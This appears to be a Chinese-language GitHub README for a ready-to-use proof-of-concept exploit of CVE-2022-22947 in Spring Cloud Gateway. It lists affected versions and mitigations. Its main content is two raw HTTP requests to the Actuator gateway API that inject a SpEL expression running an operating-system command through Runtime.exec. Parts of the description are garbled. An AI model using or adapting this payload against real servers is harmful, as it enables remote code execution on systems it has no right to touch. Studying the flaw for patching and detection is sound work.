 # Spring_CVE_2022_22947
Spring_CVE_2022_22947:Spring Cloud Gateway现高风险漏洞cve,poc漏洞利用,一键利用,开箱即用
![image](https://user-images.githubusercontent.com/53851034/156614534-ec365420-9bca-4236-a10e-98fc7ed71d43.png)

漏洞描述 ：#####
#漏洞
漏洞描述：#####
### Spring Cloud Gateway Spring中API网关攻击。3.1.0及3.0.6版本（包含）之前存在SpEL表达式的插件，当开发者可以利用Actuator API的执行情况下，将是该漏洞的命令选项。
漏洞描述：#####
# 影  响范围 :
## Spring Cloud Gateway以下版本均受影响：

    3.1.0
    3.0.0至3.0.6
    其他老版本 
    
#  缓解方法 ： 
    3.1.x用户应升级到3.1.1+
    3.0.x用户应升级到3.0.7+
    如果不需要Actuator端点，可以通过management.endpoint.gateway.enable：false配置将其禁用
    如果需要Actuator端点，则应使用Spring Security对其进行保护 

CVE-2022-22946：HTTP2 不安全的 TrustManager :

严重性 ： Medium 


![image-20220303141049270](https://user-images.githubusercontent.com/53851034/156614983-1471d8b7-89b5-4e8d-8d5b-a451089a44e9.png)



###





# ::p oc :


POST /actuator/gateway/routes/new_route HTTP/1.1    

Host: 127.0.0.1:9000

Connection: close

Content-Type: application/json

{

 "predicates": [

    {

     "name": "Path",

     "args": {

       "_genkey_0": "/new_route/**"

     }

    }

  ],

 "filters": [

    {

     "name": "RewritePath",

     "args": {

       "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"touch/tmp/x\")}",

       "_genkey_1": "/${path}"

     }

    }

  ],

 "uri": "https://wya.pl",

 "order": 0

}

POST /actuator/gateway/refresh HTTP/1.1

Host: 127.0.0.1:9000

Content-Type: application/json

Connection: close

Content-Length: 258

{

 "predicate": "Paths: [/new_route], match trailing slash:true",

 "route_id": "new_route",

 "filters": [

   "[[RewritePath#{T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/x\")} =/${path}], order = 1]"

  ],

 "uri": "https://wya.pl",

 "order": 0

}
